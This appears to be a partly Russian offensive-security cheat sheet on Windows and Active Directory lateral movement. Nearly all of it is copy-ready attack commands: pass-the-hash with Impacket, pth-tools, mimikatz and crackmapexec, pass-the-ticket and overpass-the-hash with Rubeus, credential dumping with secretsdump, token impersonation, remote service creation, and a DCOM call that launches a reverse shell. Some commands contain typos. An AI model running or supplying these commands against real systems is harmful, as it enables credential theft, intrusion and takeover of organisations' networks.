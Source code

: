 ## Pass the Hash:  
**Impacket and pth**: 
export SMBHASH=NTML hash
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  

**Description**: Если у нас имеется Kerberos-билет TGT (билет пользователя), то мы можем применить егодля аутентификации. При этом Linux и Windows используют разные форматы — ccache и kirbi соответственно.  

  **First step**: [steal ticket](https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus)  
**Second step**: create hidden process  
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:username /password:fakepassword  
**Pass the ticket**: Rubeus.exe ptt /luid:(luid of areated process) /ticket:(stolen ticket)  
  
**Tools to steal token**:  
  1. https://github.com/slyd0g/PrimaryTokenTheft  
  2. https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation  
  3. Cobalt Strike, Covenant.  

**WINDOWS (Mimikatz)**:  
mimikatz# kerberos::ptt c:\path\to\tgt.kirbi  
mimikatz# kerberos::ptс c:\path\to\tgt.ccache  
После импорта используем любую нужную нам программу без указания каких‐либо ключей: dir \\dc.company.org\c$  

Под Linux делаем Pass-the-Ticket в формате ccache:  
cp tgt.ccache /tmp/krb5cc_0  
klist  
Конертируем билет в ccache: kekeo.exe "misc::convert ccache ticket.kirbi" "exit"  
После импорта билеты в Linux используем следующим образом:   
  - smbclient -k //dc.company.org/c$  
  - winexe -k yes -N //dc.company.org cmd  
  
Инструменты из набора impacket могут использовать билеты без предварительного импорта: Чтобы использовать Kerberos-билет при аутентификации, нужно обращаться к target по имени, а не по IP-адресу.  

KRB5CCNAME=`pwd`/tgt.ccache psexec.py -k -dc-ip 10.0.0.1 target.domain.com  
KRB5CCNAME=`pwd`/tgt.ccache secretsdump.py -k -no-pass target.domain.com  

## Overpass the Hash (Rubeus):  
**Overpass the hash is a technique which allows us to request a Kerberos TGT for a user use their NTLM or AES hash**.  
Rubeus.exe asktgt /user:username /aes256:(aes256 hash) /opsec /nowrap


## Overpass the Hash (Invoke-Mimikatz): generate token from the hash.  
Invoke-Mimikatz -Command '"securelsa::pth /user:Administrator /domain:. /ntlm:hash /run:powershell.exe"'
  
## Token Impersonation (Incognito):  
load_incognito //load module;  
list_tokens -u //list available tokens;  
impersonate_token [domain]\\[username] //impersonate token;  
shell //get shell with privilege of stealed token;  

## Token Impersonation (Invoke-TokenManipulation):  
1. Invoke-TokenManipulation -ShowAll  
2. Invoke-TokenManipulation -Enumerate

**Start a new process with token of a specific user**:  
1. Invoke-TokenManipulation -ImpersonateUser -Usrname "domain\username"  

**Start a new process with token of another process**:  
1. Invoke-TokenManipulation -CreateProcess "...\powershell.exe" -ProcessId 500  
  
## DCOM:  
[Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) example:  
1) powershell-import C:\Tools\Invoke-DCOM.ps1  
2) powershell Invoke-DCOM -ComputerName dc.domain.local -Method MMC20.Application -Command C:\Windows\reverse_shell.exe  
  
**Aditional information and techniques**:  
  - https://www.ired.team/offensive-security/lateral-movement/t1175-distributed-component-object-model  
  - https://redblue42.code42.com/detecting-lateral-movement-via-dcom/  

## GOLDEN TICKET:  

**Description**: forge user TGT, need krbtgt for encryption.
  
  
## SILVER TICKET:  

**Description**: forge service TGS, need service hash for encryption ticket.



  
